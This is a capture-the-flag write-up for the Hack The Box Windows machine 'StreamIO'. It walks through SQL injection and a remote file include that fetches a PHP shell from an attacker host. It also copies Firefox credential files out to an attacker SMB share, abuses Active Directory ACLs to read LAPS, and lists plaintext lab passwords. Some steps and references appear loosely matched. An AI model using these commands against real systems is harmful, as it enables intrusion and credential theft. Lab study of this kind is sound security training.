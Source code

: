 # STREAMIO

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used:**  
  - SQL Injection (stacked queries) on `/search.php` 🐍  
  - Remote File Include via `debug` parameter for RCE 📝  
  - MSSQL xp_dirtree for Net‑NTLMv2 capture (dead end) 🔒  
  - PHP credential harvesting (db_user / db_admin) 🗄️  
  - Hash‑cracking (MD5) with RockYou 🔑  
  - WebShell → Reverse shell with `nc64.exe` 🖥️  
  - Local enumeration → Firefox profile dump & Firepwd 🔍  
  - BloodHound + ADACL abuse → LAPS retrieval 🔐  
- **Open Ports (relevant):**  
  - [HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP) 80/tcp  
  - [HTTPS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview) 443/tcp  
  - SMB 445/tcp  
  - WinRM 5985/tcp  

---

## TLDR 🚀
1. **SQLi** on `watch.streamio.htb/search.php` finds injection via stacked queries.  
2. **RFI** on `streamio.htb/admin/?debug=` includes remote PHP, yielding a reverse shell as **yoshihide**.  
3. **Dump** main DB tables → **MD5** hashes → crack for **yoshihide**, **nikk37**, etc.  
4. **Login** to `streamio.htb/login.php` with cracked creds → **nikk37** shell via Evil‑WinRM.  
5. **Extract** Firefox `logins.json` + `key4.db` → Firepwd → **JDgodd** Slack creds.  
6. **BloodHound** (as JDgodd) → abuse Core Staff ACL → read **LAPS** from DC → Administrator shell.  

---

## Tools 🛠️
- **nmap** – port & service enumeration  
- **wfuzz**, **feroxbuster** – vhost & directory discovery  
- **Burp Suite** – manual SQLi & RFI testing  
- **sqlmap** – confirm SQLi injection point  
- **curl** – test HTTP methods & include payloads  
- **nc64.exe** – Windows reverse shell payload  
- **Responder** – Net‑NTLMv2 capture (enumeration step)  
- **hashcat** – MD5 hash cracking (`-m 0`)  
- **evil-winrm** – remote PowerShell shell  
- **sqlcmd** – on‑box MSSQL querying  
- **PowerView.ps1** – AD ACL & group manipulation  
- **firepwd.py** – Firefox password decryption  
- **bloodhound-python** + BloodHound GUI – AD enumeration and ACL discovery  

---

## Commands to Solve Box 📝

```bash
# 1. Confirm SQLi on search.php
curl -k -d "q=test' WAITFOR DELAY '0:0:5'--" https://watch.streamio.htb/search.php

# 2. RFI to include remote PHP (master.php)
curl -k -X POST "http://streamio.htb/admin/?debug=master.php" \
     -d "include=http://10.10.14.6/shell.php"

# 3. Reverse shell listener
nc -lvnp 443

# 4. Crack main DB hashes
hashcat -m 0 user-passwords rockyou.txt --user

# 5. Evil‑WinRM as nikk37
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'

# 6. Exfil Firefox creds
# On host: smbserver.py share . -user oxdf -pass oxdf -smb2support
# On box:
net use \\10.10.14.6\share /u:oxdf oxdf
copy %APPDATA%\mozilla\Firefox\Profiles\*.default-release\{key4.db,logins.json} \\10.10.14.6\share\

# 7. Decrypt with Firepwd
firepwd.py key4.db logins.json

# 8. BloodHound collect as JDgodd
bloodhound-python -c All -u JDgodd -p 'password@12' -d streamio.htb -ns 10.10.11.158 --zip

# 9. Abuse Core Staff ACL & read LAPS
# On box via Evil-WinRM (JDgodd):
Import-Module .\PowerView.ps1
$pass=ConvertTo-SecureString 'password@12' -AsPlainText -Force
$cred=New-Object PSCredential 'streamio.htb\JDgodd',$pass
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "streamio\JDgodd"
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred

# 10. Administrator shell via LAPS
evil-winrm -i 10.10.11.158 -u Administrator -p '-Z4I/T1W0%+4nF'
```

---

## Actions Learned 💡
- Craft **stacked‑query** SQL injection in MSSQL 🐍  
- Achieve **RCE** via PHP file‑include debugging endpoint 🚨  
- Use **sqlcmd** on Windows to query internal DBs 🗄️  
- Extract & **crack** MD5 hashes en masse with hashcat 🔑  
- Dump **Firefox** saved credentials (key4.db + logins.json) → Firepwd 🔐  
- Leverage **BloodHound** & **PowerView** to abuse AD ACLs 🧩  
- Read **LAPS** password from computer object for SYSTEM 🤖  

---

## References 📚
- Stack‑based SQLi in MSSQL:  
  – https://portswigger.net/web-security/sql-injection/mysql/stacked-queries  
- PHP RFI via `php://filter`:  
  – https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion  
- Firepwd (Firefox decrypt):  
  – https://github.com/AndreMiras/pyfirepwd  
- PowerView & AD ACL abuse:  
  – https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon  
- LAPS enumeration & crackmapexec:  
  – https://github.com/byt3bl33d3r/CrackMapExec/wiki/LAPS-module  